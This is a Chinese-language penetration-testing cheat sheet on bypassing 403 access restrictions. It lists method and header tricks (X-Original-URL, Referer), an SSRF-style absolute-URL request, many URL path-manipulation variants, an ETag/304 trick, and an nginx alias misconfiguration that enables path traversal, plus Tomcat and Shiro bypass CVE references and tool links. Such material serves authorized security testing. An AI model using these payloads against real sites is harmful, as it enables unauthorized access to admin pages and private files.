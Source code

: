 # 绕过访问

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [Tips : Bypass Etag If-None-Match](https://anggigunawan17.medium.com/tips-bypass-etag-if-none-match-e1f0e650a521)

**相关案例**
- [Bypassing 403 Protection To Get Pagespeed Admin Access](https://sapt.medium.com/bypassing-403-protection-to-get-pagespeed-admin-access-822fab64c0b3)

**相关工具**
- [iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403) - 一个用来绕过403报错的简单脚本
- [Dheerajmadhukar/4-ZERO-3](https://github.com/Dheerajmadhukar/4-ZERO-3) - 403/401 Bypass Methods + Bash Automation
- [devploit/dontgo403](https://github.com/devploit/dontgo403) - Tool to bypass 40X response codes.
- [ffffffff0x/403-fuzz](https://github.com/ffffffff0x/403-fuzz) - 针对 403 页面的 fuzz 脚本

**相关资源**
- [GrrrDog/weird_proxies](https://github.com/GrrrDog/weird_proxies) - Reverse proxies cheatsheet
- [CHYbeta/OddProxyDemo](https://github.com/CHYbeta/OddProxyDemo)

**Tips**
- protocol based bypass
    ```bash
    http://web.com/admin    # ===> 403
    https://web.com/admin   # ===> 200
    ```

- method based bypass
    ```bash
    OPTIONS
    GET
    HEAD
    POST
    PUT
    DELETE
    TRACE
    TRACK
    CONNECT
    PROPFIND
    PROPPATCH
    MKCOL
    COPY
    MOVE
    LOCK
    UNLOCK
    VERSION-CONTROL
    REPORT
    CHECKOUT
    CHECKIN
    UNCHECKOUT
    MKWORKSPACE
    UPDATE
    LABEL
    MERGE
    BASELINE-CONTROL
    MKACTIVITY
    ORDERPATCH
    ACL
    PATCH
    SEARCH
    ARBITRARY
    ```

- HTTP Header based bypass
    ```bash
    GET /admin HTTP/1.1
    Host: web.com   # ===> 403

    GET /anything HTTP/1.1
    Host: web.com
    X-Original-URL: /admin  # ===> 200

    GET /anything HTTP/1.1
    Host: web.com
    Referer: https://web.com/admin  # ===> 200

    GET https://qq.com HTTP/1.1
    Host: web.com   # ===> SSRF
    ```

- url character/parameter bypass
    ```bash
    /admin/panel            # ===> 403
    /admin/monitor          # ===> 200

    /admin/monitor/;panel   # ===> 302
    ```
    ```bash
    web.com/admin           # ===> 403

    web.com/ADMIN           # ===> 200
    web.com/admin/          # ===> 200
    web.com//admin/         # ===> 200
    web.com/admin;          # ===> 200
    web.com/admin/.         # ===> 200
    web.com/admin/../admin  # ===> 200
    web.com/admin../admin   # ===> 200
    web.com/../admin        # ===> 200
    web.com//admin//        # ===> 200
    web.com/./admin/./      # ===> 200
    web.com/./admin/..      # ===> 200
    web.com/;/admin         # ===> 200
    web.com/.;/admin        # ===> 200
    web.com//;//admin       # ===> 200
    web.com/admin.json      # ===> 200(ruby)

    web.com/%2f/admin/      # ===> 200
    web.com/%2e/admin       # ===> 200
    web.com/%252e/admin     # ===> 200
    web.com/%ef%bc%8fadmin  # ===> 200

    web.com/admin           # ===> 302
    web.com/test/admin      # ===> 200
    web.com/admin..;/       # ===> 200
    ```

- 304 bypass
    ```bash
    GET /admin HTTP/1.1
    Host: target.com
    If-None-Match: W/"123-dASdsa2d2212e4d21"

    GET /admin HTTP/1.1
    Host: target.com
    ```

    ```
    If-None-Match: W/"123-dASdsa2d2212e4d21"

    If-None-Match: W/"null"
    If-None-Match: W/"123-dASdsa2d2212e4d21" a
    ```

---

## nginx

**相关文章**
- [Common Nginx Misconfiguration leads to Path Traversal](https://systemweakness.com/common-nginx-misconfiguration-leads-to-path-traversal-d58701e997bc) - 当 nginx 配置不当时,可使用类似 `/test../private/secret.html` 进行目录穿越
- [案例｜轻松绕过你的Nginx（上篇）](https://mp.weixin.qq.com/s/yDIMgXltVLNfslVGg9lt4g)
- [终极案例｜轻松绕过你的Nginx（下篇）](https://mp.weixin.qq.com/s/34QZSq90Nj5xKjG1yTGvZw)

```
root /var/www/html/public;

location /test/ {
    alias /var/www/html/public/;
}

✔  /test/public.html
❌  /test../private/secret.html
```

```
root /var/www/html/public;

location /test {
    alias /var/www/html/public/;
}

✔  /test/public.html
✔  /test../private/secret.html
```

---

## Tomcat

**相关文章**
- [CVE-2020-5902——关于;号绕过认证技巧总结](https://mp.weixin.qq.com/s/JnI4f3R5JZqhLFv_fTQ_0A)
- [tomcat对url请求中的特殊字符处理 分析](https://blog.csdn.net/qq_41891666/article/details/110392483)

---

## shiro

**SHIRO-682 & CVE-2020-1957 | Shiro 权限绕过漏洞**
- 相关文章
    - [Shiro 权限绕过漏洞分析（CVE-2020-1957）](https://blog.riskivy.com/shiro-%e6%9d%83%e9%99%90%e7%bb%95%e8%bf%87%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90%ef%bc%88cve-2020-1957%ef%bc%89/)

**SHIRO-782 & CVE-2020-11989**
- 相关文章
    - [Apache Shiro权限绕过漏洞分析(CVE-2020-11989)](https://mp.weixin.qq.com/s/yb6Tb7zSTKKmBlcNVz0MBA)
    - [Apache Shiro 身份验证绕过漏洞 (CVE-2020-11989)](https://xlab.tencent.com/cn/2020/06/30/xlab-20-002/)'
    - [CVE-2020-11989：Apache Shiro权限绕过复现](https://mp.weixin.qq.com/s/p1UzULYPoTKf6i_Chcj2VQ)
    - [记一次Apache Shiro权限绕过实战](http://www.0dayhack.net/index.php/554/)
    - [记一次前台任意文件下载漏洞挖掘](https://xz.aliyun.com/t/10328)

**CVE-2020-17523**
- 相关文章
    - [Apache Shiro身份认证绕过漏洞复现(CVE-2020-17523)](https://mp.weixin.qq.com/s/PHBG3wQUIPSrlmX_jsSXbA)
    - [jweny/shiro-cve-2020-17523](https://github.com/jweny/shiro-cve-2020-17523)
